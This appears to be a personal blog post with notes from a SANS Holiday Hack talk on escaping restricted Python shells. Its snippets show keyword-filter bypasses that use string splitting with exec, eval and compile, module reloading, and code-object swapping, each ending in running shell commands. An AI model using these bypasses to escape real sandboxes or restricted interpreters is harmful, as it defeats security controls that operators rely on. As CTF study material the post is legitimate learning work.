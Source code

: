 ```yaml
---
title: "Notes on Escaping Python Shells"
date: 2019-01-19T22:29:43-05:00
draft: false
toc: true
comments: true
categories:
- Python
---
```


During the [SANS Holiday Hack Challenge 2018]({{< relref "/post/2019-01-15-sans-holiday-hack-2018" >}} "SANS Holiday Hack Challenge 2018"), I viewed a talk by [Mark Baggett](https://twitter.com/markbaggett) about escaping Python shells. These are my notes.

* Talk: https://www.youtube.com/watch?v=ZVx2Sxl3B9c
* Code: https://gist.github.com/MarkBaggett/dd440362f8a443d644b913acadff9499

It's part of [SANS SEC573: Automating Information Security with Python](https://www.sans.org/course/automating-information-security-with-python) which looks interesting. Although, I am Go fanatic and will probably will never be able to afford to course anyways. Creating a Go version of the course sounds fun.

<!--more-->

# Overwrite/Reload Python Modules
Overwrite them in memory:

``` python
import sys
sys.modules['os'].system = lamba *x,**y:"STOP HACKING"
del sys

# now if I want to run it
import os
os.system("ls")
# I get stop hacking
'STOP HACKING'
```

To defeat, we can reload them in Python 3 with `importlib`

``` python
import importlib
importlib.reload(os)
```

# Python as Child Process
Python interpreter is launched as a child process and then keywords are filtered with `readfunc()`.

## exec
Executes Python code that does not return a result. Break the statements into pieces and run them.

``` python
exec("imp" + "ort os")
os.system("id")
```

## eval
Executes Python code that returns a result.

``` python
os = eval('__im' + 'port__("os")')  # __import__("os")
os.system("id")
```

## compile
Turns a string into bytecode.

``` python
code = compile("im" + "port os", "", "single") # single means only compile this single line.

# now we need to execute it
# make a function that does nothing
def a():
    return

# and overwrite it
a.__code__ = code

# execute it
a()

# now os should be imported
os.system("id")
```

## exec, eval, import and compile are blocked
Go to a different Python interpreter, make the function you want. Interpreter versions should somewhat match (e.g. both 2.7 or 3.5):

``` python
def bypass():
    import os
    print(os.system("id"))
```

Paste `make_object.py` from https://gist.github.com/MarkBaggett/dd440362f8a443d644b913acadff9499#file-make_object-py this function into the 2nd interpreter:

``` python
import sys
def makeobject(afunction):
   print("Generating a function for version {}.{} (same version as this machine)".format(sys.version_info.major, sys.version_info.minor))
   newstr = ""
   newstr += "def a():\n"
   newstr += "   return\n\n"
   if sys.version_info.major == 2:
       co = afunction.__code__
       if sys.version_info.minor not in [5,6,7]:
           print("This code has not been tested on this version of python.  It may not work.")
       newstr += "a.__code__ = type(a.__code__)({0},{1},{2},{3},'{4}',{5},{6},{7},'{8}','{9}',{10},'{11}')".format( co.co_argcount, co.co_nlocals, co.co_stacksize, co.co_flags, co.co_code.encode("string_escape"),co.co_consts, co.co_names, co.co_varnames, co.co_filename, str(co.co_name), co.co_firstlineno, co.co_lnotab.encode("string_escape"))
   elif sys.version_info.major == 3:
       co = afunction.__code__
       if sys.version_info.minor not in [5]:
           print("This code has not been tested on this version of python.  It may not work.")
       newstr += "a.__code__ = type(a.__code__)({0},{1},{2},{3},{4},{5},{6},{7},{8},'{9}','{10}',{11},{12})".format( co.co_argcount, co.co_kwonlyargcount, co.co_nlocals, co.co_stacksize, co.co_flags, co.co_code,co.co_consts, co.co_names, co.co_varnames, co.co_filename, str(co.co_name), co.co_firstlineno, co.co_lnotab)
   else:
       print("This version of python is not tested and may not work")
   print(newstr)
```

Now call `makeobject(bypass)` to get the bytecode for it. It gives a string that can be copy/pasted into the remote system. It will create a function called `a` and then bytecode for it that does what `bypass` does. Might need to break the keywords into a string again (e.g. `"import"` to `"im" + "port"`).

Unsurprisingly, the challenge used this method. See my solution to [Python Escape from LA]({{< relref "/post/2019-01-15-sans-holiday-hack-2018/index.markdown#python-escape-from-la" >}} "Python Escape from LA").